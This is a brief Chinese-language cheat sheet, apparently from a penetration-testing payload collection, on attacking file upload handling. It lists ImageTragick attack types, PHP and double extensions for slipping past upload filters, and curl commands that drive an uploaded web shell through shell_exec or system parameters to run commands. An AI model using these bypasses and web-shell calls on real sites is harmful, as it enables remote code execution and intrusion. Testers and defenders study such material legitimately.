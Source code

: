 # 上传
如果不正确处理，上传的文件可能会带来很大的风险。远程攻击者可以使用特定的文件名或mime类型发送多部件/表单数据POST请求，并执行任意代码。

## 开发
图像的悲剧（Image Tragik）
```
HTTP Request
Reverse Shell
Touch command
```

PHP扩展
```
.php

Less known extension
.pht
.pgif
.phtml
.shtml

Double extension
.jpeg.php
.png.php
```

绕开PNG调整大小 - 上传图片并使用本地文件
```
You can use it by specifying $_GET[0] as shell_exec and passing a $_POST[1] parameter with the shell command to execute.
curl 'http://localhost/b.php?0=shell_exec' --data "1='ls'"
curl 'http://localhost/test.php?0=system' --data "1='ls'"
```

绕开JPG调整大小 - 上传图片并使用本地文件包
```
http://localhost/test.php?c=ls
```

## 致谢
* Bulletproof Jpegs Generator - Damien "virtualabs" Cauquil
